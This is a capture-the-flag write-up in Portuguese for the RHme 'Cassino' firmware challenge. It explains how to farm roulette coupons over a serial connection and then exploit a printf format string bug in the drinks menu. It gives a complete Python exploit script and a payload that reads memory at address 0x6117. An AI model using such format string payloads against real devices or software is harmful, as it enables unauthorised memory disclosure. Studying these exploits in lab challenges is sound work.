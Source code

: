 # RHME - Cassino WriteUp

---

Neste desafio chamado **Cassino**, interagimos com um sistema que simula um jogo de apostas. O objetivo é obter **cupons gratuitos** jogando na roleta, e depois usar esses cupons para acessar o **menu de bebidas**.

A vulnerabilidade explorada aqui é uma clássica **format string vulnerability**, permitindo leitura arbitrária de memória ao abusar do uso incorreto da função `printf()` no firmware.

---

## Exploração

### 1. Ganhar cupons gratuitos

O desafio exige que o jogador tenha cupons para acessar o menu vulnerável. Usamos o seguinte loop para "farmar" cupons automaticamente:

```python
while not tickets:
    trash = s.xfer("4\\n")         # volta ao menu principal
    trash = s.xfer("1\\n")         # escolhe a opção 1: Spin
    trash = s.xfer("S\\n")         # gira a roleta
    trash = s.xfer("\\r\\n")        # confirma
    if int(trash.split("left: ")[1][0]):
        tickets = 1               # se ganhou cupom, continua

```

Esse trecho simula a interação repetida com o cassino até ganhar um cupom.

---

### 2. Entrar no menu vulnerável

Após conseguir um cupom, acessamos o menu de bebidas:

```python
trash = s.xfer("3\\n")

```

Esse menu só está disponível para quem tem cupons e é justamente onde a vulnerabilidade ocorre.

---

### 3. Exploração com format string

No prompt para digitar o nome da bebida, inserimos:

```python
print s.xfer("\\x17\\x61 %s\\n")

```

Esse input contém:

- `\\x17\\x61` → um **endereço de memória (0x6117)**
- `%s` → comando de leitura de string via ponteiro

Se o `printf()` for chamado de forma insegura, como:

```c
printf(user_input); // e não printf("%s", user_input);

```

o `%s` será interpretado, e o valor em `0x6117` será tratado como ponteiro para string.

Com sorte (ou por observação), esse endereço conterá dados relevantes, como ponteiros para a **flag**.

---

## Script completo

```python
from rhme_serial import *

s = rhme_serial()
tickets = 0

while not tickets:
    trash = s.xfer("4\\n")
    trash = s.xfer("1\\n")
    trash = s.xfer("S\\n")
    trash = s.xfer("\\r\\n")
    if int(trash.split("left: ")[1][0]):
        tickets = 1

trash = s.xfer("3\\n")
print s.xfer("\\x17\\x61 %s\\n")
s.close()

```

---

## Resultado

Ao executar o script…

![image.png](image.png)

---